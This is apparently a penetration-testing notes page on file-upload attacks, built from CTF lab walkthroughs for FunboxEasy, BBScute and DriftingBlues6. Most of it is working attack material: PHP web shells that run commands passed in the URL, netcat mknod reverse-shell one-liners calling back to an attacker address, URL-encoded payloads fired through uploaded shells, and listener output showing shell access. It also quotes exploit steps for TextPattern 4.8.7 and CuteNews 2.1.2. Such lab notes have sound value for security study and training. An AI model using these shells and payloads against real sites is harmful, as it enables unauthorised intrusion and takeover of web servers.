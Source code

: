 ```yaml
---
layout: default
title: File Upload (Web)
parent: Web Exploits
nav_order: 4
---
```


# File Upload via Web UI

---

## Generic File Upload to LFI Reverse Shell

Authenticate to _admin.php_ portal with discovered credentials.

![auth](../../../../assets/images/ctfs/proving_grounds/funboxeasy/auth.png)

Edit a book...

![edit](../../../../assets/images/ctfs/proving_grounds/funboxeasy/edit.png)

Upload a PHP command shell file using the Image file option.

![upload](../../../../assets/images/ctfs/proving_grounds/funboxeasy/upload.png)

```bash
# Create file test.php with the following web shell code

<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>

```

Images are placed in the _/img_ directory.
Test PHP shell RCE functionality.

![cmd](../../../../assets/images/ctfs/proving_grounds/funboxeasy/cmd.png)

Now that we have a PHP command shell uploaded let get a revere shell.

Use _revshellgen_ and _urlencode_ to get a url encoded mk-nod reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod | tail -n 1
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the reverse shell one-liner and get a reverse shell on our netcat listener.

```bash
URL: 192.168.222.111/store/bootstrap/img/test.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.111] 39914
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## CuteNews 2.1.2 - Authenticated Arbitrary File Upload

[Exploit Database CuteNews 2.1.2 exploit for authenticated arbitrary file upload.](https://www.exploit-db.com/exploits/48458)

Copy Pentest Monkey reverse shell to the current directory.
Edit to attach machine parameters and include _GIF8;_ at the top of the script.

![rev_shell](../../../../assets/images/ctfs/proving_grounds/bbscute/rev_shell.png)

Upload the file to the registered user's avatar.

![avatar](../../../../assets/images/ctfs/proving_grounds/bbscute/avatar.png)

As soon as we regresh the registered user's personal options page we have a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/bbscute]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.128] 52280
Linux cute.calipendula 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 03:15:02 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## TextPattern CMS 4.8

Reviewing _searchsploit_ for exploits on _Textpattern 4.8_ we have the following options:

```bash
# Exploit Title : TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)
# Date : 2021/09/06
# Exploit Author : Mert Da<C5><9F> merterpreter@gmail.com
# Software Link : https://textpattern.com/file_download/113/textpattern-4.8.7.zip
# Software web : https://textpattern.com/
# Tested on: Server : Xampp

First of all we should use file upload section to upload our shell.
Our shell contains this malicious code: <?PHP system($_GET['cmd']);?>

1) Go to content section .
2) Click Files and upload malicious php file.
3) go to yourserver/textpattern/files/yourphp.php?cmd=yourcode;

After upload our file , our request and respons is like below :

```

Create PHP CMD shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ vim cmd.php

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat cmd.php
<?php

system($_GET['cmd'])

?>

```

Upload to the target.

![upload](../../../../assets/images/ctfs/proving_grounds/driftingblues6/upload.png)

Run a test command and verify RCE.

![cmd](../../../../assets/images/ctfs/proving_grounds/driftingblues6/cmd.png)

Use _revshellgen_ to generate a bash one-liner on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Execute the following URL

URL: http://192.168.160.219/textpattern/files/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Get a reverse shell

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.219] 33206
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
